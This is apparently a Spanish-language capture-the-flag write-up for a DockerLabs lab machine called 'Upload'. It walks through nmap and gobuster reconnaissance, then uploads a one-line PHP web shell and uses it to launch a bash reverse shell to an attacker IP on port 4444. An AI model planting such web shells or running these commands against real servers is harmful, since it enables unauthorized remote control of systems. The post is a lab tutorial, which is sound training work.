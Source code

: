 ```yaml
---
layout: post
title: Maquina Upload
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/upload-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  Web Fuzzing
  -  Binarios UNIX
  -  Arbitrary File Upload
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** Upload
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** Easy

#### **Configuración Entorno**
Lo primero que hacemos es descargarnos los archivos de dockerlabs de la maquina.
![Image 1](https://aanton94.github.io/blog/img/Upload/Img1.png)

Una vez descargado ejecutamos el siguiente script:
![Image 2](https://aanton94.github.io/blog/img/Upload/Img2.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y,
una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de ener conocimientos de docker.

**upload.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la maquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 3](https://aanton94.github.io/blog/img/Upload/Img3.png)

Podemos observar que el ttl es de 64, por tanto, omo norma general podemos afirmas que se trata de una maquina linux.

Una vez comprobada la conectividad, inciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:

```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rapido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la version del servicio abirto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)

![Image 4](https://aanton94.github.io/blog/img/Upload/Img4.png)

Podemos observar que solo cuenta con el puerto 80 abierto, al acceder via web nos encontramos con lo siguiente:
![Image 5](https://aanton94.github.io/blog/img/Upload/Img5.png)

Nos encontramos con un campo que nos permite subir un archivo, por lo tanto, tratamos de subir un fichero de prueba:
![Image 6](https://aanton94.github.io/blog/img/Upload/Img6.png)

Recibimos un mensaje de que el archivo se ha subido correctamente. A continuación, realizaremos fuzzing de la web para poder localizar posibles directorios. Utilizaremos la herramienta de fuzzing `gobuster`{:.info} aunque podríamos utilizar cualquier otra de este estilo, para ello utilizaremos un diccionario de directorios comunes.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```
![Image 7](https://aanton94.github.io/blog/img/Upload/Img7.png)

Al finalizar el fuzzing encontramos el directorio uploads, tratamos de acceder y podemos ver que en este directorio se almaceno el fichero que subimos anteriormente.
![Image 8](https://aanton94.github.io/blog/img/Upload/Img8.png)

Comprobamos que podemos abrir el fichero en el navegador.
![Image 9](https://aanton94.github.io/blog/img/Upload/Img9.png)

Por tanto, al tener una ruta donde podemos subir y abrir ficheros, intentaremos subir un fichero con codigo php malicioso para tratar de lograr ejecutar comandos de forma remota.

#### **Explotación**

Para la explotación vamos a crear un archivo php llamado cmd.php con el siguiente código:

```php
<?php
	system($_GET['cmd']);
?>
```

Este script PHP ejecuta un comando del sistema recibido a través de la variable GET llamada 'cmd'. Por lo tanto, puede ser una puerta de entrada para ejecutar comandos maliciosos si no se filtran adecuadamente las entradas del usuario.

Subimos el fichero cmd.php, nos dirigimos al directorio uploads y vemos que al leer el fichero el servidor ejecuta el codigo php, utilizamos la variable cmd definida en el script para ejecurar el comando `whoami`{:.info}.
![Image 10](https://aanton94.github.io/blog/img/Upload/Img10.png)

Y efectivamente, nos devuelve que es usuario es **www-data**, por lo tanto, confirmamos que tenemos ejecución remota de comandos, abusando de esta brecha de seguridad podemos intentar abrir una revese shell contra el servidor víctima.

Para ello pondremos nuestra maquina atacante en escucha por el puerto 4444 utilizando netcat:

```bash
nc -lvnp 4444
```
Y ejecutaremos una revese shell a través del script de php cmd.php subido anteriormente.

`http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >& /dev/tcp/192.168.199.131/4444 0>&1"`{:.error}

Y recibimos la reverse shell en el puerto que teníamos en escucha.
![Image 11](https://aanton94.github.io/blog/img/Upload/Img11.png)
